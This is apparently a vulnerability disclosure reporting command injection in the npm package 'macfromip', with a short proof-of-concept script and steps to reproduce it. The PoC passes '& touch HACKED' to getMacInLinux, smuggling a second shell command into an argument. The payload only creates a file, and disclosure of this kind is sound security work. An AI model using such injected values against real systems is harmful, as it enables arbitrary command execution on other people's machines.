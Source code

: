 # Description

Command Injection in macfromip

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var a=require("macfromip");
a.getMacInLinux("& touch HACKED",function(){})
```

2. Execute the following commands in terminal:

```
npm i macfromip # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output using ls command before and after the execution

